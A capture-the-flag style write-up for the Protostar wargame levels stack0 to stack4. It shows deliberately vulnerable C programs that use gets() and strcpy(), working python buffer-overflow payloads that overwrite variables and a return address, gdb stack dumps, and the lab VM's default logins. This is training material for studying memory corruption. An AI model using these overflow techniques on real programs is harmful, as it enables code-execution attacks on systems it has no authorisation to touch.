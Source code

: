 ## Wargame/Protostar

## VM Configuration

- protostar vm (parallels, vmware, vmplayer, ...)
- Login as admin id `root/godmod` and check IP using `ifconfig`
- ssh `user@ip`, password : `user`

## Stack0

> /opt/protostar/bin/stack0

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### You should know 

- parameter passing to `gets()`
- order of local parameters on the stack
- command line python script

```
$ (python -c 'print "A"*64+"BBBB"';cat)|./stack0
you have changed the 'modified' variable
```

## Stack1

> /opt/protostar/bin/stack1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### You should know 

- endian in memory

```
$ ./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
you have correctly got the variable to the right value
```

## Stack2

> /opt/protostar/bin/stack2

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### You should know 

- shell variable
- env variable

```
$ GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
$ export GREENIE
$ ./stack2
you have correctly modified the variable
```

## Stack3

> /opt/protostar/bin/stack3

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### You should know 

- getting address of the function
- `objdump`

```
$ objdump -d ./stack3 | grep win
08048424 <win>:
$ (python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack4

> /opt/protostar/bin/stack4

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### You should know 

- `gdb`
- make eip value modified
- assembly : `lea    0x10(%esp),%eax`

```
$ scp user@10.211.55.5:/opt/protostar/bin/stack4 .

gef➤  x/64x $esp
0xffffcf00: 0xffffffff  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x00000000  0x080495ec  0xffffcf28  0x080482e8
0xffffcf20: 0xffffd1c9  0x080495ec  0xffffcf58  0x08048449
0xffffcf30: 0x08048430  0x08048340  0x00000000  0xf7e4519d
0xffffcf40: 0xf7fbb3c4  0xf7ffd000  0x0804843b  0xf7fbb000
0xffffcf50: 0x08048430  0x00000000  0x00000000  0xf7e2bad3
0xffffcf60: 0x00000001  0xffffcff4  

$ebp   : 0xffffcf58

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE


gef➤  x/64x $esp
0xffffcf00: 0xffffcf10  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf20: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf30: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf40: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf50: 0x42424242  0x43434343  0x44444444  0x45454545
0xffffcf60: 0x00000000  0xffffcff4  

$ objdump -d stack4 | grep win
080483f4 <win>:
$ (python -c 'print "A"*64+"BBBBCCCC"+"DDDD"+"\xf4\x83\x04\x08"';cat)|./stack4
code flow successfully changed
```
